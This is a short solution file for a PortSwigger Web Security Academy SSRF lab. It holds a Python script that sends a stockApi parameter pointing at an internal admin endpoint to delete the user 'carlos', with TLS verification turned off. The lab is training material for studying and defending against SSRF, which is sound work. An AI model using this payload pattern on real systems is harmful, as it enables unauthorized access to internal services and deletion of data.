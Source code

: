 # Lab: Basic SSRF against another back-end system

Link to lab: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

## Solution
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
}

data = 'stockApi=http://192.168.0.151:8080/admin/delete?username=carlos'

response = requests.post(
    'https://0abb00ce03698edbc1b380e7009400f4.web-security-academy.net/product/stock',
    headers=headers,
    data=data,
    verify=False,
    allow_redirects=False
)

print(response.text)
```
